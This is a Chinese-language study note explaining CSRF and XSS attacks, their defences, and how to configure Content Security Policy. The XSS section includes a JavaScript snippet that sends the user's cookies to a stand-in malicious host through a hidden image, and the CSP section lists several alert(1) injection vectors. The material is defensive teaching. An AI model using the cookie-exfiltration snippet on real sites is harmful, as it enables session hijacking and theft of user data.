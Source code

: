 #### CSRF Cross-site request forgery（跨站请求伪造）
参考： http://www.imooc.com/article/13552

过程：用户小明在你的网站A上面登录了，A返回了一个session ID（使用cookie存储）,小明的浏览器保持着A网站的登录状态，攻击者小强给小明发送了一个链接地址，小明打开了地址的时候，这个页面已经自动的对网站a发送了一个请求，通过使用小明的cookie信息，这样攻击者小强就可以随意更改小明在A上的信息。

防御措施：
1）使用token：服务器随机产生tooken，然后以tooken为秘钥产生一段密文，把token和密文都随cookie交给前端，前端发起请求时把密文和token交给后端，后端对token和密文进行验证，看token能不能生成同样的密文，这样即使黑客拿到了token也无法拿到密文
2）使用验证码：每一个重要的post提交页面，使用一个验证码，因为第三方网站是无法获得验证码的
3）检测http的头信息refer。Referer记录了请求的来源地址，服务器要做的是验证这个来源地址是否合法
4）涉及敏感操作的请求改为POST请求

#### XSS cross sit script 跨站请求攻击
参考: http://www.imooc.com/learn/812

* XSS和CSRF都属于跨站攻击，XSS是实现CSRF诸多途径中的一条，但不是唯一一条
* xss的本质是让对方浏览器执行你插入的js ，来获取cookie等信息；csrf是借用用户的身份，向服务器发送请求
* XSS分为存储型和反射型：
    * 存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie等
    * 反射型XSS，非持久化，需要欺骗用户自己去点击链接才能触发XSS代码。发出请求时，XSS代码出现在URL中，作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器，最后浏览器解析执行XSS

防御措施：
1. 客户端校验用户输入信息，只允许输入合法的值，其他一概过滤掉，防止客户端输入恶意的js代码被植入到HTML代码中，使得js代码得以执行
    * 移除用户上传的DOM属性，如onerror等
    * 移除用户上传的style节点，script节点，iframe节点等
2. 对用户输入的代码标签进行转换（html encode）
3. 对url中的参数进行过滤
4. 对动态输出到页面的内容进行HTML编码
5. 服务端对敏感的Cookie设置 httpOnly属性，使js脚本不能读取到cookie
6. CSP 即是 Content Security Policy

```
var img = document.createElement('img');
img.src='http://www.xss.com?cookie='+document.cookie;
img.style.display='none';
document.getElementsByTagName('body')[0].appendChild(img);

这样就神不知鬼不觉的把当前用户的cookie发送给了我的恶意站点，我的恶意站点通过获取get参数就拿到了用户的cookie。当然我们可以通过这个方法拿到用户各种各样的数据。
```

目前很多浏览器都会自身对用户的输入进行判断，检测是否存在攻击字符，比如你上述提到的`<script>`标签，这段脚本很明显就是一段xss攻击向量，因此浏览器会对这段输入进行处理，不同的浏览器处理方式也不一样。可以在浏览器中将这个拦截关闭


#### CSP
* CSP的目的

XSS(Cross Site Scripting) 跨站脚本攻击是最常见也是危害最大的攻击手段，我们前端能够做一些能力范围内的处理，比如最简单的将表单内容脚本序列化为HTML实体，以防止恶意脚本的执行，但除此之外，还有很多跨站脚本攻击的方式，如下：

```html
<a href="javascript:alert(1)"></a>
<iframe src="javascript:alert(1)"></iframe>
<img src="x" onerror="alert(1)" style="">
<video src="x" onerror="alert(1)"></video>
<div onclick="alert(1)" onmouseover="alert(2)"><div></div></div>
```

利用 `javascript:..` 以及 内联事件进行攻击。

为了阻止这些攻击，我们前端也要做不少相应的工作，于是很多人提出能不能从根本上解决问题，让浏览器帮我们做这些事情，这就是 CSP 提出的原因和要解决的问题。

* 原理

原理其实就是白名单机制，开发者明确告诉客户端(浏览器)哪些资源可以加载并执行，我们只需要提供配置，其他的工作由客户端(浏览器)来完成。

* 开启CSP的方式

一、通过 `<meta>` 标签开启
```html
<meta http-equiv="Content-Security-Policy" content="配置项" >
```

二、通过添加 `Content-Security-Policy` 响应头字段
<img src="../../asset/img/csp.png" width="500" />

#### 可配置的选项

```
default-src：用来设置每个选项的默认值

script-src：外部脚本
style-src：样式表
img-src：图像
media-src：媒体文件（音频和视频）
font-src：字体文件
object-src：插件（比如 Flash）
child-src：框架
frame-ancestors：嵌入的外部资源（比如<frame>、<iframe>、<embed>和<applet>）
connect-src：HTTP 连接（通过 XHR、WebSockets、EventSource等）
worker-src：worker脚本
manifest-src：manifest 文件

block-all-mixed-content：HTTPS 网页不得加载 HTTP 资源（浏览器已经默认开启）
upgrade-insecure-requests：自动将网页上所有加载外部资源的 HTTP 链接换成 HTTPS 协议
plugin-types：限制可以使用的插件格式
sandbox：浏览器行为的限制，比如不能有弹出窗口等。

report-uri：有时，我们不仅希望浏览器帮我们防止XSS的攻击，还希望将该行为上报到给定的网址，该选项用来配置上报的地址
```

#### 选项的值

每个限制选项可以设置以下几种值

* 主机名：`example.org`，`https://example.com:443`
* 路径名：`example.org/resources/js/`
* 通配符：`*.example.org`，`*://*.example.com:*`（表示任意协议、任意子域名、任意端口）
* 协议名：`https:`、`data:`
* 关键字'self'：当前域名，需要加引号
* 关键字'none'：禁止加载任何外部资源，需要加引号

###### 例子

```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'; object-src 'none'; style-src cdn.example.org third-party.org; child-src https:">
```

上面代码中，CSP 做了如下配置：

* 脚本：只信任当前域名
* `<object>` 标签：不信任任何URL，即不加载任何资源
* 样式表：只信任 `cdn.example.org` 和 `third-party.org`
* 框架（frame）：必须使用HTTPS协议加载
* 其他资源：没有限制